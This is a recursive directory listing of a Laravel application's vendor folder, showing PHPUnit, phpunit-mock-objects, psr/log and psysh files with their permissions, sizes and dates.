-rw-r--r--  1 www-data www-data  104 Apr  3  2017 Success.php
-rw-r--r--  1 www-data www-data  936 Apr  3  2017 TemplateMethodsTest.php
-rw-r--r--  1 www-data www-data  215 Apr  3  2017 TestAutoreferenced.php
-rw-r--r--  1 www-data www-data  222 Apr  3  2017 TestDoxGroupTest.php
-rw-r--r--  1 www-data www-data  177 Apr  3  2017 TestGeneratorMaker.php
-rw-r--r--  1 www-data www-data  165 Apr  3  2017 TestIncomplete.php
-rw-r--r--  1 www-data www-data  582 Apr  3  2017 TestIterator.php
-rw-r--r--  1 www-data www-data  532 Apr  3  2017 TestIterator2.php
-rw-r--r--  1 www-data www-data  156 Apr  3  2017 TestSkipped.php
-rw-r--r--  1 www-data www-data  135 Apr  3  2017 TestTestError.php
-rw-r--r--  1 www-data www-data  453 Apr  3  2017 TestWithTest.php
-rw-r--r--  1 www-data www-data  177 Apr  3  2017 ThrowExceptionTestCase.php
-rw-r--r--  1 www-data www-data  115 Apr  3  2017 ThrowNoExceptionTestCase.php
-rw-r--r--  1 www-data www-data  162 Apr  3  2017 WasRun.php
-rw-r--r--  1 www-data www-data    7 Apr  3  2017 bar.xml
-rw-r--r--  1 www-data www-data   30 Apr  3  2017 configuration.colors.empty.xml
-rw-r--r--  1 www-data www-data   35 Apr  3  2017 configuration.colors.false.xml
-rw-r--r--  1 www-data www-data   44 Apr  3  2017 configuration.colors.invalid.xml
-rw-r--r--  1 www-data www-data   34 Apr  3  2017 configuration.colors.true.xml
-rw-r--r--  1 www-data www-data  111 Apr  3  2017 configuration.custom-printer.xml
-rw-r--r--  1 www-data www-data  154 Apr  3  2017 configuration.suites.xml
-rw-r--r--  1 www-data www-data 3.9K Apr  3  2017 configuration.xml
-rw-r--r--  1 www-data www-data 1012 Apr  3  2017 configuration_empty.xml
-rw-r--r--  1 www-data www-data   71 Apr  3  2017 configuration_stop_on_warning.xml
-rw-r--r--  1 www-data www-data 2.5K Apr  3  2017 configuration_xinclude.xml
-rw-r--r--  1 www-data www-data    4 Apr  3  2017 expectedFileFormat.txt
-rw-r--r--  1 www-data www-data    7 Apr  3  2017 foo.xml
-rw-r--r--  1 www-data www-data  167 Apr  3  2017 phpt-for-coverage.phpt
-rw-r--r--  1 www-data www-data  186 Apr  3  2017 phpt-xfail.phpt
drwxr-xr-x  4 www-data www-data 4.0K Apr  3  2017 phpunit-example-extension
-rw-r--r--  1 www-data www-data  791 Apr  3  2017 structureAttributesAreSameButValuesAreNot.xml
-rw-r--r--  1 www-data www-data  846 Apr  3  2017 structureExpected.xml
-rw-r--r--  1 www-data www-data  898 Apr  3  2017 structureIgnoreTextNodes.xml
-rw-r--r--  1 www-data www-data  862 Apr  3  2017 structureIsSameButDataIsNot.xml
-rw-r--r--  1 www-data www-data  768 Apr  3  2017 structureWrongNumberOfAttributes.xml
-rw-r--r--  1 www-data www-data  580 Apr  3  2017 structureWrongNumberOfNodes.xml

/var/www/laravel/vendor/phpunit/phpunit/tests/_files/Inheritance:
total 24K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 5 www-data www-data  12K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data   97 Apr  3  2017 InheritanceA.php
-rw-r--r-- 1 www-data www-data  113 Apr  3  2017 InheritanceB.php

/var/www/laravel/vendor/phpunit/phpunit/tests/_files/JsonData:
total 24K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 5 www-data www-data  12K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data   34 Apr  3  2017 arrayObject.json
-rw-r--r-- 1 www-data www-data   17 Apr  3  2017 simpleObject.json

/var/www/laravel/vendor/phpunit/phpunit/tests/_files/phpunit-example-extension:
total 28K
drwxr-xr-x 4 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 5 www-data www-data  12K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data  357 Apr  3  2017 phpunit.xml
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 tests
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 tools

/var/www/laravel/vendor/phpunit/phpunit/tests/_files/phpunit-example-extension/tests:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data  222 Apr  3  2017 OneTest.php

/var/www/laravel/vendor/phpunit/phpunit/tests/_files/phpunit-example-extension/tools:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  3  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 phpunit.d

/var/www/laravel/vendor/phpunit/phpunit/tests/_files/phpunit-example-extension/tools/phpunit.d:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Apr  3  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  3  2017 ..
-rw-r--r-- 1 www-data www-data 3.2K Apr  3  2017 phpunit-example-extension-1.0.0.phar

/var/www/laravel/vendor/phpunit/phpunit-mock-objects:
total 60K
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 9 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data   15 Dec  8  2016 .gitattributes
-rw-r--r-- 1 www-data www-data   88 Dec  8  2016 .gitignore
-rw-r--r-- 1 www-data www-data 1.9K Dec  8  2016 .php_cs
-rw-r--r-- 1 www-data www-data  392 Dec  8  2016 .travis.yml
-rw-r--r-- 1 www-data www-data  215 Dec  8  2016 CONTRIBUTING.md
-rw-r--r-- 1 www-data www-data 1.6K Dec  8  2016 LICENSE
-rw-r--r-- 1 www-data www-data 1.1K Dec  8  2016 README.md
drwxr-xr-x 2 www-data www-data 4.0K Dec  8  2016 build
-rw-r--r-- 1 www-data www-data 1.2K Dec  8  2016 build.xml
-rw-r--r-- 1 www-data www-data 1.3K Dec  8  2016 composer.json
-rw-r--r-- 1 www-data www-data  794 Dec  8  2016 phpunit.xml
drwxr-xr-x 3 www-data www-data 4.0K Dec  8  2016 src
drwxr-xr-x 4 www-data www-data 4.0K Dec  8  2016 tests

/var/www/laravel/vendor/phpunit/phpunit-mock-objects/build:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Dec  8  2016 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  458 Dec  8  2016 travis-ci.xml

/var/www/laravel/vendor/phpunit/phpunit-mock-objects/src:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Dec  8  2016 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 3 www-data www-data 4.0K Dec  8  2016 Framework

/var/www/laravel/vendor/phpunit/phpunit-mock-objects/src/Framework:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Dec  8  2016 .
drwxr-xr-x 3 www-data www-data 4.0K Dec  8  2016 ..
drwxr-xr-x 8 www-data www-data 4.0K Dec  8  2016 MockObject

/var/www/laravel/vendor/phpunit/phpunit-mock-objects/src/Framework/MockObject:
total 128K
drwxr-xr-x 8 www-data www-data 4.0K Dec  8  2016 .
drwxr-xr-x 3 www-data www-data 4.0K Dec  8  2016 ..
drwxr-xr-x 2 www-data www-data 4.0K Dec  8  2016 Builder
drwxr-xr-x 2 www-data www-data 4.0K Dec  8  2016 Exception
drwxr-xr-x 2 www-data www-data 4.0K Dec  8  2016 Generator
-rw-r--r-- 1 www-data www-data  44K Dec  8  2016 Generator.php
drwxr-xr-x 2 www-data www-data 4.0K Dec  8  2016 Invocation
-rw-r--r-- 1 www-data www-data  498 Dec  8  2016 Invocation.php
-rw-r--r-- 1 www-data www-data 4.5K Dec  8  2016 InvocationMocker.php
-rw-r--r-- 1 www-data www-data 1.2K Dec  8  2016 Invokable.php
drwxr-xr-x 2 www-data www-data 4.0K Dec  8  2016 Matcher
-rw-r--r-- 1 www-data www-data 8.4K Dec  8  2016 Matcher.php
-rw-r--r-- 1 www-data www-data 8.9K Dec  8  2016 MockBuilder.php
-rw-r--r-- 1 www-data www-data 1.7K Dec  8  2016 MockObject.php
drwxr-xr-x 2 www-data www-data 4.0K Dec  8  2016 Stub
-rw-r--r-- 1 www-data www-data  987 Dec  8  2016 Stub.php
-rw-r--r-- 1 www-data www-data  690 Dec  8  2016 Verifiable.php

/var/www/laravel/vendor/phpunit/phpunit-mock-objects/src/Framework/MockObject/Builder:
total 40K
drwxr-xr-x 2 www-data www-data 4.0K Dec  8  2016 .
drwxr-xr-x 8 www-data www-data 4.0K Dec  8  2016 ..
-rw-r--r-- 1 www-data www-data  924 Dec  8  2016 Identity.php
-rw-r--r-- 1 www-data www-data 8.0K Dec  8  2016 InvocationMocker.php
-rw-r--r-- 1 www-data www-data  790 Dec  8  2016 Match.php
-rw-r--r-- 1 www-data www-data  898 Dec  8  2016 MethodNameMatch.php
-rw-r--r-- 1 www-data www-data 1.3K Dec  8  2016 Namespace.php
-rw-r--r-- 1 www-data www-data 1.6K Dec  8  2016 ParametersMatch.php
-rw-r--r-- 1 www-data www-data  856 Dec  8  2016 Stub.php

/var/www/laravel/vendor/phpunit/phpunit-mock-objects/src/Framework/MockObject/Exception:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Dec  8  2016 .
drwxr-xr-x 8 www-data www-data 4.0K Dec  8  2016 ..
-rw-r--r-- 1 www-data www-data  449 Dec  8  2016 BadMethodCallException.php
-rw-r--r-- 1 www-data www-data  422 Dec  8  2016 Exception.php
-rw-r--r-- 1 www-data www-data  437 Dec  8  2016 RuntimeException.php

/var/www/laravel/vendor/phpunit/phpunit-mock-objects/src/Framework/MockObject/Generator:
total 60K
drwxr-xr-x 2 www-data www-data 4.0K Dec  8  2016 .
drwxr-xr-x 8 www-data www-data 4.0K Dec  8  2016 ..
-rw-r--r-- 1 www-data www-data   59 Dec  8  2016 deprecation.tpl.dist
-rw-r--r-- 1 www-data www-data 1.2K Dec  8  2016 mocked_class.tpl.dist
-rw-r--r-- 1 www-data www-data  237 Dec  8  2016 mocked_class_method.tpl.dist
-rw-r--r-- 1 www-data www-data  132 Dec  8  2016 mocked_clone.tpl.dist
-rw-r--r-- 1 www-data www-data  709 Dec  8  2016 mocked_method.tpl.dist
-rw-r--r-- 1 www-data www-data  674 Dec  8  2016 mocked_method_void.tpl.dist
-rw-r--r-- 1 www-data www-data  244 Dec  8  2016 mocked_static_method.tpl.dist
-rw-r--r-- 1 www-data www-data  768 Dec  8  2016 proxied_method.tpl.dist
-rw-r--r-- 1 www-data www-data  761 Dec  8  2016 proxied_method_void.tpl.dist
-rw-r--r-- 1 www-data www-data   55 Dec  8  2016 trait_class.tpl.dist
-rw-r--r-- 1 www-data www-data  159 Dec  8  2016 unmocked_clone.tpl.dist
-rw-r--r-- 1 www-data www-data  179 Dec  8  2016 wsdl_class.tpl.dist
-rw-r--r-- 1 www-data www-data   60 Dec  8  2016 wsdl_method.tpl.dist

/var/www/laravel/vendor/phpunit/phpunit-mock-objects/src/Framework/MockObject/Invocation:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Dec  8  2016 .
drwxr-xr-x 8 www-data www-data 4.0K Dec  8  2016 ..
-rw-r--r-- 1 www-data www-data  989 Dec  8  2016 Object.php
-rw-r--r-- 1 www-data www-data 5.2K Dec  8  2016 Static.php

/var/www/laravel/vendor/phpunit/phpunit-mock-objects/src/Framework/MockObject/Matcher:
total 64K
drwxr-xr-x 2 www-data www-data 4.0K Dec  8  2016 .
drwxr-xr-x 8 www-data www-data 4.0K Dec  8  2016 ..
-rw-r--r-- 1 www-data www-data  736 Dec  8  2016 AnyInvokedCount.php
-rw-r--r-- 1 www-data www-data  841 Dec  8  2016 AnyParameters.php
-rw-r--r-- 1 www-data www-data 3.7K Dec  8  2016 ConsecutiveParameters.php
-rw-r--r-- 1 www-data www-data 1.8K Dec  8  2016 Invocation.php
-rw-r--r-- 1 www-data www-data 2.3K Dec  8  2016 InvokedAtIndex.php
-rw-r--r-- 1 www-data www-data 1.5K Dec  8  2016 InvokedAtLeastCount.php
-rw-r--r-- 1 www-data www-data 1.3K Dec  8  2016 InvokedAtLeastOnce.php
-rw-r--r-- 1 www-data www-data 1.5K Dec  8  2016 InvokedAtMostCount.php
-rw-r--r-- 1 www-data www-data 3.0K Dec  8  2016 InvokedCount.php
-rw-r--r-- 1 www-data www-data 1.6K Dec  8  2016 InvokedRecorder.php
-rw-r--r-- 1 www-data www-data 1.8K Dec  8  2016 MethodName.php
-rw-r--r-- 1 www-data www-data 4.7K Dec  8  2016 Parameters.php
-rw-r--r-- 1 www-data www-data 1.9K Dec  8  2016 StatelessInvocation.php

/var/www/laravel/vendor/phpunit/phpunit-mock-objects/src/Framework/MockObject/Stub:
total 44K
drwxr-xr-x 2 www-data www-data 4.0K Dec  8  2016 .
drwxr-xr-x 8 www-data www-data 4.0K Dec  8  2016 ..
-rw-r--r-- 1 www-data www-data 1.2K Dec  8  2016 ConsecutiveCalls.php
-rw-r--r-- 1 www-data www-data 1.3K Dec  8  2016 Exception.php
-rw-r--r-- 1 www-data www-data  754 Dec  8  2016 MatcherCollection.php
-rw-r--r-- 1 www-data www-data  932 Dec  8  2016 Return.php
-rw-r--r-- 1 www-data www-data 1023 Dec  8  2016 ReturnArgument.php
-rw-r--r-- 1 www-data www-data 1.4K Dec  8  2016 ReturnCallback.php
-rw-r--r-- 1 www-data www-data  571 Dec  8  2016 ReturnReference.php
-rw-r--r-- 1 www-data www-data  980 Dec  8  2016 ReturnSelf.php
-rw-r--r-- 1 www-data www-data 1.2K Dec  8  2016 ReturnValueMap.php

/var/www/laravel/vendor/phpunit/phpunit-mock-objects/tests:
total 68K
drwxr-xr-x 4 www-data www-data 4.0K Dec  8  2016 .
drwxr-xr-x 5 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 7.2K Dec  8  2016 GeneratorTest.php
-rw-r--r-- 1 www-data www-data 3.8K Dec  8  2016 MockBuilderTest.php
drwxr-xr-x 6 www-data www-data 4.0K Dec  8  2016 MockObject
-rw-r--r-- 1 www-data www-data  32K Dec  8  2016 MockObjectTest.php
-rw-r--r-- 1 www-data www-data 1.1K Dec  8  2016 ProxyObjectTest.php
drwxr-xr-x 2 www-data www-data 4.0K Dec  8  2016 _fixture
-rw-r--r-- 1 www-data www-data  103 Dec  8  2016 bootstrap.php

/var/www/laravel/vendor/phpunit/phpunit-mock-objects/tests/MockObject:
total 28K
drwxr-xr-x 6 www-data www-data 4.0K Dec  8  2016 .
drwxr-xr-x 4 www-data www-data 4.0K Dec  8  2016 ..
drwxr-xr-x 2 www-data www-data 4.0K Dec  8  2016 Builder
drwxr-xr-x 2 www-data www-data 4.0K Dec  8  2016 Generator
drwxr-xr-x 2 www-data www-data 4.0K Dec  8  2016 Invocation
drwxr-xr-x 2 www-data www-data 4.0K Dec  8  2016 Matcher
-rw-r--r-- 1 www-data www-data 2.9K Dec  8  2016 class_with_deprecated_method.phpt

/var/www/laravel/vendor/phpunit/phpunit-mock-objects/tests/MockObject/Builder:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Dec  8  2016 .
drwxr-xr-x 6 www-data www-data 4.0K Dec  8  2016 ..
-rw-r--r-- 1 www-data www-data 1.8K Dec  8  2016 InvocationMockerTest.php

/var/www/laravel/vendor/phpunit/phpunit-mock-objects/tests/MockObject/Generator:
total 156K
drwxr-xr-x 2 www-data www-data 4.0K Dec  8  2016 .
drwxr-xr-x 6 www-data www-data 4.0K Dec  8  2016 ..
-rw-r--r-- 1 www-data www-data 2.9K Dec  8  2016 232.phpt
-rw-r--r-- 1 www-data www-data 3.7K Dec  8  2016 abstract_class.phpt
-rw-r--r-- 1 www-data www-data 3.1K Dec  8  2016 class.phpt
-rw-r--r-- 1 www-data www-data 2.0K Dec  8  2016 class_call_parent_clone.phpt
-rw-r--r-- 1 www-data www-data 2.0K Dec  8  2016 class_call_parent_constructor.phpt
-rw-r--r-- 1 www-data www-data 2.0K Dec  8  2016 class_dont_call_parent_clone.phpt
-rw-r--r-- 1 www-data www-data 2.0K Dec  8  2016 class_dont_call_parent_constructor.phpt
-rw-r--r-- 1 www-data www-data 2.0K Dec  8  2016 class_implementing_interface_call_parent_constructor.phpt
-rw-r--r-- 1 www-data www-data 2.0K Dec  8  2016 class_implementing_interface_dont_call_parent_constructor.phpt
-rw-r--r-- 1 www-data www-data 2.6K Dec  8  2016 class_partial.phpt
-rw-r--r-- 1 www-data www-data 2.3K Dec  8  2016 class_with_method_named_method.phpt
-rw-r--r-- 1 www-data www-data 2.8K Dec  8  2016 class_with_method_with_variadic_arguments.phpt
-rw-r--r-- 1 www-data www-data 2.5K Dec  8  2016 interface.phpt
-rw-r--r-- 1 www-data www-data 3.1K Dec  8  2016 invocation_object_clone_object.phpt
-rw-r--r-- 1 www-data www-data 3.1K Dec  8  2016 namespaced_class.phpt
-rw-r--r-- 1 www-data www-data 2.0K Dec  8  2016 namespaced_class_call_parent_clone.phpt
-rw-r--r-- 1 www-data www-data 2.0K Dec  8  2016 namespaced_class_call_parent_constructor.phpt
-rw-r--r-- 1 www-data www-data 2.0K Dec  8  2016 namespaced_class_dont_call_parent_clone.phpt
-rw-r--r-- 1 www-data www-data 2.0K Dec  8  2016 namespaced_class_dont_call_parent_constructor.phpt
-rw-r--r-- 1 www-data www-data 2.1K Dec  8  2016 namespaced_class_implementing_interface_call_parent_constructor.phpt
-rw-r--r-- 1 www-data www-data 2.1K Dec  8  2016 namespaced_class_implementing_interface_dont_call_parent_constructor.phpt
-rw-r--r-- 1 www-data www-data 2.6K Dec  8  2016 namespaced_class_partial.phpt
-rw-r--r-- 1 www-data www-data 2.5K Dec  8  2016 namespaced_interface.phpt
-rw-r--r-- 1 www-data www-data 2.0K Dec  8  2016 nonexistent_class.phpt
-rw-r--r-- 1 www-data www-data 2.0K Dec  8  2016 nonexistent_class_with_namespace.phpt
-rw-r--r-- 1 www-data www-data 2.0K Dec  8  2016 nonexistent_class_with_namespace_starting_with_separator.phpt
-rw-r--r-- 1 www-data www-data 2.6K Dec  8  2016 nullable_types.phpt
-rw-r--r-- 1 www-data www-data 3.2K Dec  8  2016 proxy.phpt
-rw-r--r-- 1 www-data www-data 2.6K Dec  8  2016 return_type_declarations_nullable.phpt
-rw-r--r-- 1 www-data www-data 2.7K Dec  8  2016 return_type_declarations_object_method.phpt
-rw-r--r-- 1 www-data www-data 2.6K Dec  8  2016 return_type_declarations_self.phpt
-rw-r--r-- 1 www-data www-data 2.3K Dec  8  2016 return_type_declarations_static_method.phpt
-rw-r--r-- 1 www-data www-data 2.6K Dec  8  2016 return_type_declarations_void.phpt
-rw-r--r-- 1 www-data www-data 2.6K Dec  8  2016 scalar_type_declarations.phpt
-rw-r--r-- 1 www-data www-data  884 Dec  8  2016 wsdl_class.phpt
-rw-r--r-- 1 www-data www-data  916 Dec  8  2016 wsdl_class_namespace.phpt
-rw-r--r-- 1 www-data www-data  808 Dec  8  2016 wsdl_class_partial.phpt

/var/www/laravel/vendor/phpunit/phpunit-mock-objects/tests/MockObject/Invocation:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Dec  8  2016 .
drwxr-xr-x 6 www-data www-data 4.0K Dec  8  2016 ..
-rw-r--r-- 1 www-data www-data 3.0K Dec  8  2016 ObjectTest.php
-rw-r--r-- 1 www-data www-data 2.5K Dec  8  2016 StaticTest.php

/var/www/laravel/vendor/phpunit/phpunit-mock-objects/tests/MockObject/Matcher:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Dec  8  2016 .
drwxr-xr-x 6 www-data www-data 4.0K Dec  8  2016 ..
-rw-r--r-- 1 www-data www-data 1.5K Dec  8  2016 ConsecutiveParametersTest.php

/var/www/laravel/vendor/phpunit/phpunit-mock-objects/tests/_fixture:
total 108K
drwxr-xr-x 2 www-data www-data 4.0K Dec  8  2016 .
drwxr-xr-x 4 www-data www-data 4.0K Dec  8  2016 ..
-rw-r--r-- 1 www-data www-data  188 Dec  8  2016 AbstractMockTestClass.php
-rw-r--r-- 1 www-data www-data  223 Dec  8  2016 AbstractTrait.php
-rw-r--r-- 1 www-data www-data   67 Dec  8  2016 AnInterface.php
-rw-r--r-- 1 www-data www-data   90 Dec  8  2016 AnInterfaceWithReturnType.php
-rw-r--r-- 1 www-data www-data   76 Dec  8  2016 AnotherInterface.php
-rw-r--r-- 1 www-data www-data   95 Dec  8  2016 Bar.php
-rw-r--r-- 1 www-data www-data  322 Dec  8  2016 ClassThatImplementsSerializable.php
-rw-r--r-- 1 www-data www-data   85 Dec  8  2016 ClassWithSelfTypeHint.php
-rw-r--r-- 1 www-data www-data   92 Dec  8  2016 ClassWithStaticMethod.php
-rw-r--r-- 1 www-data www-data  114 Dec  8  2016 Foo.php
-rw-r--r-- 1 www-data www-data  132 Dec  8  2016 FunctionCallback.php
-rw-r--r-- 1 www-data www-data 7.3K Dec  8  2016 GoogleSearch.wsdl
-rw-r--r-- 1 www-data www-data   85 Dec  8  2016 InterfaceWithSemiReservedMethodName.php
-rw-r--r-- 1 www-data www-data   89 Dec  8  2016 InterfaceWithStaticMethod.php
-rw-r--r-- 1 www-data www-data  360 Dec  8  2016 MethodCallback.php
-rw-r--r-- 1 www-data www-data  197 Dec  8  2016 MethodCallbackByReference.php
-rw-r--r-- 1 www-data www-data  118 Dec  8  2016 MockTestInterface.php
-rw-r--r-- 1 www-data www-data  500 Dec  8  2016 Mockable.php
-rw-r--r-- 1 www-data www-data  261 Dec  8  2016 PartialMockTestClass.php
-rw-r--r-- 1 www-data www-data  333 Dec  8  2016 SingletonClass.php
-rw-r--r-- 1 www-data www-data  163 Dec  8  2016 SomeClass.php
-rw-r--r-- 1 www-data www-data  185 Dec  8  2016 StaticMockTestClass.php
-rw-r--r-- 1 www-data www-data  101 Dec  8  2016 StringableClass.php
-rw-r--r-- 1 www-data www-data   69 Dec  8  2016 TraversableMockTestInterface.php

/var/www/laravel/vendor/psr:
total 12K
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 log

/var/www/laravel/vendor/psr/log:
total 28K
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data    7 Oct 10  2016 .gitignore
-rw-r--r-- 1 www-data www-data 1.1K Oct 10  2016 LICENSE
drwxr-xr-x 3 www-data www-data 4.0K Oct 10  2016 Psr
-rw-r--r-- 1 www-data www-data 1.1K Oct 10  2016 README.md
-rw-r--r-- 1 www-data www-data  561 Oct 10  2016 composer.json

/var/www/laravel/vendor/psr/log/Psr:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Oct 10  2016 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 3 www-data www-data 4.0K Oct 10  2016 Log

/var/www/laravel/vendor/psr/log/Psr/Log:
total 44K
drwxr-xr-x 3 www-data www-data 4.0K Oct 10  2016 .
drwxr-xr-x 3 www-data www-data 4.0K Oct 10  2016 ..
-rw-r--r-- 1 www-data www-data 3.1K Oct 10  2016 AbstractLogger.php
-rw-r--r-- 1 www-data www-data   96 Oct 10  2016 InvalidArgumentException.php
-rw-r--r-- 1 www-data www-data  336 Oct 10  2016 LogLevel.php
-rw-r--r-- 1 www-data www-data  297 Oct 10  2016 LoggerAwareInterface.php
-rw-r--r-- 1 www-data www-data  397 Oct 10  2016 LoggerAwareTrait.php
-rw-r--r-- 1 www-data www-data 3.0K Oct 10  2016 LoggerInterface.php
-rw-r--r-- 1 www-data www-data 3.3K Oct 10  2016 LoggerTrait.php
-rw-r--r-- 1 www-data www-data  651 Oct 10  2016 NullLogger.php
drwxr-xr-x 2 www-data www-data 4.0K Oct 10  2016 Test

/var/www/laravel/vendor/psr/log/Psr/Log/Test:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Oct 10  2016 .
drwxr-xr-x 3 www-data www-data 4.0K Oct 10  2016 ..
-rw-r--r-- 1 www-data www-data 4.5K Oct 10  2016 LoggerInterfaceTest.php

/var/www/laravel/vendor/psy:
total 12K
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x  6 www-data www-data 4.0K Apr  9  2017 psysh

/var/www/laravel/vendor/psy/psysh:
total 72K
drwxr-xr-x 6 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  188 Mar 19  2017 .editorconfig
-rw-r--r-- 1 www-data www-data  118 Mar 19  2017 .gitignore
drwxr-xr-x 2 www-data www-data 4.0K Mar 19  2017 .phan
-rw-r--r-- 1 www-data www-data 1.1K Mar 19  2017 .php_cs
-rw-r--r-- 1 www-data www-data  333 Mar 19  2017 .styleci.yml
-rw-r--r-- 1 www-data www-data 1.6K Mar 19  2017 .travis.yml
-rw-r--r-- 1 www-data www-data  911 Mar 19  2017 CONTRIBUTING.md
-rw-r--r-- 1 www-data www-data 1.1K Mar 19  2017 LICENSE
-rw-r--r-- 1 www-data www-data 9.2K Mar 19  2017 README.md
drwxr-xr-x 2 www-data www-data 4.0K Mar 19  2017 bin
-rw-r--r-- 1 www-data www-data 1.8K Mar 19  2017 composer.json
-rw-r--r-- 1 www-data www-data  319 Mar 19  2017 phpunit.xml.dist
drwxr-xr-x 3 www-data www-data 4.0K Mar 19  2017 src
drwxr-xr-x 5 www-data www-data 4.0K Mar 19  2017 test

/var/www/laravel/vendor/psy/psysh/.phan:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Mar 19  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 1.7K Mar 19  2017 config.php

/var/www/laravel/vendor/psy/psysh/bin:
total 44K
drwxr-xr-x 2 www-data www-data 4.0K Mar 19  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Apr  9  2017 ..
-rwxr-xr-x 1 www-data www-data  195 Mar 19  2017 build
-rwxr-xr-x 1 www-data www-data 8.0K Mar 19  2017 build-manual
-rwxr-xr-x 1 www-data www-data 1.2K Mar 19  2017 build-phar
-rwxr-xr-x 1 www-data www-data  218 Mar 19  2017 build-vendor
-rwxr-xr-x 1 www-data www-data  554 Mar 19  2017 build-vendor-compat
-rwxr-xr-x 1 www-data www-data 1012 Mar 19  2017 package
-rwxr-xr-x 1 www-data www-data 4.1K Mar 19  2017 psysh

/var/www/laravel/vendor/psy/psysh/src:
total 12K
drwxr-xr-x  3 www-data www-data 4.0K Mar 19  2017 .
drwxr-xr-x  6 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 14 www-data www-data 4.0K Mar 19  2017 Psy

/var/www/laravel/vendor/psy/psysh/src/Psy:
total 176K
drwxr-xr-x 14 www-data www-data 4.0K Mar 19  2017 .
drwxr-xr-x  3 www-data www-data 4.0K Mar 19  2017 ..
-rw-r--r--  1 www-data www-data  849 Mar 19  2017 Autoloader.php
drwxr-xr-x  2 www-data www-data 4.0K Mar 19  2017 CodeCleaner
-rw-r--r--  1 www-data www-data 6.8K Mar 19  2017 CodeCleaner.php
drwxr-xr-x  3 www-data www-data 4.0K Mar 19  2017 Command
-rw-r--r--  1 www-data www-data 4.5K Mar 19  2017 Compiler.php
-rw-r--r--  1 www-data www-data 5.8K Mar 19  2017 ConfigPaths.php
-rw-r--r--  1 www-data www-data  32K Mar 19  2017 Configuration.php
-rw-r--r--  1 www-data www-data 2.2K Mar 19  2017 ConsoleColorFactory.php
-rw-r--r--  1 www-data www-data 6.2K Mar 19  2017 Context.php
-rw-r--r--  1 www-data www-data  567 Mar 19  2017 ContextAware.php
drwxr-xr-x  2 www-data www-data 4.0K Mar 19  2017 Exception
drwxr-xr-x  2 www-data www-data 4.0K Mar 19  2017 ExecutionLoop
drwxr-xr-x  2 www-data www-data 4.0K Mar 19  2017 Formatter
drwxr-xr-x  2 www-data www-data 4.0K Mar 19  2017 Output
-rw-r--r--  1 www-data www-data 2.3K Mar 19  2017 ParserFactory.php
drwxr-xr-x  2 www-data www-data 4.0K Mar 19  2017 Readline
drwxr-xr-x  2 www-data www-data 4.0K Mar 19  2017 Reflection
-rw-r--r--  1 www-data www-data  28K Mar 19  2017 Shell.php
drwxr-xr-x  3 www-data www-data 4.0K Mar 19  2017 TabCompletion
drwxr-xr-x  2 www-data www-data 4.0K Mar 19  2017 Util
drwxr-xr-x  2 www-data www-data 4.0K Mar 19  2017 VarDumper
drwxr-xr-x  2 www-data www-data 4.0K Mar 19  2017 VersionUpdater
-rw-r--r--  1 www-data www-data 8.9K Mar 19  2017 functions.php

/var/www/laravel/vendor/psy/psysh/src/Psy/CodeCleaner:
total 104K
drwxr-xr-x  2 www-data www-data 4.0K Mar 19  2017 .
drwxr-xr-x 14 www-data www-data 4.0K Mar 19  2017 ..
-rw-r--r--  1 www-data www-data 2.1K Mar 19  2017 AbstractClassPass.php
-rw-r--r--  1 www-data www-data 1003 Mar 19  2017 AssignThisVariablePass.php
-rw-r--r--  1 www-data www-data 1.4K Mar 19  2017 CallTimePassByReferencePass.php
-rw-r--r--  1 www-data www-data 2.4K Mar 19  2017 CalledClassPass.php
-rw-r--r--  1 www-data www-data  415 Mar 19  2017 CodeCleanerPass.php
-rw-r--r--  1 www-data www-data  844 Mar 19  2017 ExitPass.php
-rw-r--r--  1 www-data www-data 1.7K Mar 19  2017 FinalClassPass.php
